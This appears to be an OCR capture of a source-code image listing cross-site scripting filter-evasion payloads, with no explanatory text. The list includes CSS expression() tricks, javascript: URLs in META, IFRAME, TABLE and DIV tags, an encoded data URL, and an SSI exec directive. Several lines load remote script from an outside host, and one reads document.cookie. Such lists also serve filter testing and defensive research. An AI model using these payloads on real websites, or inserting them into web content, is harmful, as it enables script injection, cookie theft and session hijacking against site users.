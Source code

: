 ```
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

exp/*<A STYLE='no\xss:noxss("*//*");

xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

<STYLE TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

<XSS STYLE="xss:expression(alert('XSS'))">

<XSS STYLE="behavior: url(xss.htc);">

¼script¾alert(¢XSS¢)¼/script¾

<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">

<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>

<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>

<TABLE BACKGROUND="javascript:alert('XSS')">

<TABLE><TD BACKGROUND="javascript:alert('XSS')">

<DIV STYLE="background-image: url(javascript:alert('XSS'))">

<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">

<DIV STYLE="width: expression(alert('XSS'));">

<!--[if gte IE 4]><SCRIPT>alert('XSS');</SCRIPT><![endif]-->

<BASE HREF="javascript:alert('XSS');//">

<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>

<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->

<? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>

<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

```